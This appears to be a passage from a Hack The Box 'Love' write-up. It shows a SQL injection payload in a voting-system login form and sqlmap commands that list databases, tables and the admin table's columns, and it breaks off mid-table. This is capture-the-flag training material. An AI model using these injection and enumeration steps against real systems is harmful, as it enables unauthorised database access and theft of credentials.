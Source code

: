 NOTE: THIS IS A BIG RABBIT HOLE!

Requst:
voter=1111'--&password=1111&login=

Response:
:  Trying to get property 'num_rows' of non-object in <b>C:\xampp\htdocs\omrs\login.php

We have SQL injection! Lets simplify it using SQLmap.

  [root:/git/htb/love]# cat req.txt                                                                                                 (master✱)
    POST /login.php HTTP/1.1
    Host: love.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 58
    Origin: http://love.htb
    Connection: close
    Referer: http://love.htb/index.php
    Cookie: PHPSESSID=0fg0p0lgce3kitltnvd8r2bvst
    Upgrade-Insecure-Requests: 1

    voter=*&password=1111&login=

  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 --dbs
    ..
    available databases [6]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] phpmyadmin
    [*] test
    [*] votesystem

  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 -D votesystem --tables
    Database: votesystem
    [5 tables]
    +------------+
    | admin      |
    | candidates |
    | positions  |
    | voters     |
    | votes      |
    +------------+

  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 -D votesystem -T admin --columns
    Database: votesystem
    Table: admin
    [7 columns]
    +------------+--------------+
    | Column     | Type         |
    +------------+--------------+
    | created_on | date         |
    | firstname  | varchar(50)  |
    | id         | int(11)      |
    | lastname   | varchar(50)  |